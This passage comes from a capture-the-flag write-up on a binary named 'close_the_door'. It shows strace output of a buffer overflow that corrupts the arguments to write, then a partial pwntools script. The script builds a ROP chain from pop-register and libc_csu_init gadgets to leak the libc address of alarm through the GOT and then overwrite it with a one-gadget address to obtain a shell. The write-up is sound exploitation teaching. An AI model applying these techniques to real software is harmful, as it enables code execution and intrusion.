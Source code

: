 ```c
strace ./close_the_door

read(0, 42
"4", 1)                         = 1
read(0, "2", 1)                         = 1
read(0, "\n", 1)                        = 1
write(1, "You found something interesting!"..., 33You found something interesting!
) = 33
write(1, "Do you think this is the secret "..., 44Do you think this is the secret password?
> ) = 44
read(0, XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
"XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"..., 1124) = 41
write(1, "SA\211\375I\211\366L)\345H\203\354\10H\301\375\3\350\17\373\377\377H\205\355t 1\333\17\37"..., 1482184792) = -1 EFAULT (Bad address)
```

Both second and third arguments were overwritten by our `X`s slide, making the length goes wild, and pointing to an unexpected - yet valid - memory area.

### Exploit

We will turn it into our advantage: we can give to the `write` function crafted arguments to leak us a libc address. Subsequent `read` allows us to inject the computed address of the one-gadget to get a shell.

Our selection for leaking libc address is the GOT entry of alarm:

```python
from pwn import flat, p32
from struct import unpack

def exploit(p, elf, libc):
   p.recvuntil(b'> ')
   p.sendline(b'yolo')

   # Select 42 to access to hidden function
   p.recvuntil(b'> ')
   p.sendline('42')

   p.recvuntil(b'> ')

   # 0x8 -> read 8 bytes (rdx value)
   ropchain = flat({
       36: p32(0x8), 40: p64(elf.got['alarm']),
   }, length=72)

   # 0x0000000000400b53 : pop rdi ; ret
   gadget_pop_rdi       = 0x400b53
   # 0x0000000000400b51 : pop rsi ; pop r15 ; ret
   gadget_pop_rsi_r15   = 0x400b51
   target_addr          = 0x602020
   
   ropchain += p64(gadget_pop_rdi) + p64(0)
   
   ropchain += p64(gadget_pop_rsi_r15) + p64(target_addr) + p64(0)
   ropchain += p64(elf.plt['read'])

   # libc_csu_init
   # 0x0000000000400b4a : pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
   gadget_many_pop      = 0x400b4a
   #0x0000000000400b30: mov rdx, r15; mov rsi, r14; mov edi, r13d; call [r12+8*rbx]
   gadget_indirect_call = 0x400b30
   
   ropchain += p64(gadget_many_pop) + 2*p64(0)+p64(target_addr)+3*p64(0)
   ropchain += p64(gadget_indirect_call)
```